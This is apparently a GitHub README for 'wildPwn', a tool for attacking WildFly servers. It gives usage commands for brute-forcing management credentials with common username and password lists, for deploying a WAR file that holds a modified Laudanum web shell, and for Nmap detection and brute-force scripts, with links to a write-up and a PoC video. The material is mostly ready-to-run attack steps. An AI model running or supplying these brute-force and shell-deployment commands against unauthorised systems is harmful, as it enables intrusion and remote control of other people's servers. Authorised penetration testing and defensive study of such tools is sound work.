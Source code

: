 # wildPwn - WildFly Exploitation Tool
It is a tool for WildFly. Tool can be used to brute force or shell deploy. *wildPwn.war* contains modified Laudanum Shell. *userList.txt* contains common usernames and *passList.txt* contains common passwords.

# Usage
Bruteforce
```
python wildPwn.py -m brute --target <TARGET> -user <USERNAME LIST> -pass <PASSWORD LIST> 
```

Shell Deploy
```
python wildPwn.py -m deploy --target <TARGET> --port <PORT> -u <USERNAME> -p <PASSWORD>
```

# Details
https://artofpwn.com/wildfly-exploitation.html

# Video
[![PoC Video](https://i.ytimg.com/vi/kTsPwA7QhLU/maxresdefault.jpg)](https://www.youtube.com/watch?v=kTsPwA7QhLU)

# Nmap Scripts
Detection
```
nmap --script wildfly-detect <TARGET>
```

Brute Force
```
nmap -p 9990 --script wildfly-brute --script-args "userdb=usernameList.txt,passdb=passList.txt,hostname=domain.com" <TARGET>
```

